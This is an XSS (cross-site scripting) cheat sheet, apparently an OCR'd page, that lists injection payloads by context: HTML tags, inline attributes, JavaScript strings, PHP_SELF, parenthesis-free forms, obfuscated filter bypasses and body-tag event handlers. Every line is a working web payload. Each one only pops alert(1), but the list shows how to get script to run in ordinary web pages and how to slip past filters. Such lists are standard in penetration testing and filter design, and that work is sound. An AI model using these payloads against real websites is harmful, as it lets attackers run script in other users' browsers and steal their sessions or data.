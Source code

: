 <body><svg><x><script>alert(1)</script></x></svg></body>
<svg><x><script>alert(1)</x>
<svg><a><script>alert(1)</a>

XSS Cheat Sheet

HTML Context Tag Injection

<svg onload=alert(1)>
"><svg onload=alert(1)//

HTML Context Inline Injection

"onmouseover=alert(1)//
"autofocus/onfocus=alert(1)//

Javascript Context Code Injection

'-alert(1)-'
'-alert(1)//

Javascript Context Code Injection (escaping the escape)

\'-alert(1)//

Javascript Context Tag Injection

</script><svg onload=alert(1)>

PHP_SELF Injection

http://DOMAIN/PAGE.php/"><svg onload=alert(1)>

Without Parenthesis

<svg onload=alert`1`>
<svg onload=alert(1)>
<svg onload=alert(1)>
<svg onload=alert(1)>

Filter Bypass Alert Obfuscation

(alert)(1)
a=alert,a(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)

Body Tag

<body onload=alert(1)>
<body onpageshow=alert(1)>
<body onfocus=alert(1)>
<body onhashchange=alert(1)><a href=#x>click this!#x
<body style=overflow:auto;height:1000px onscroll=alert(1) id=x>#x
<body onscroll=alert(1)><br><br><br><br>
<br><br><br><br><br><br><br><br><br><br>
<br><br><br><br><br><br><br><br><br><br>
<br><br><br><br><br><br><x id=x>#x
<body onresize=alert(1)>press F12!
<body onhelp=alert(1)>press F1! (MSIE)
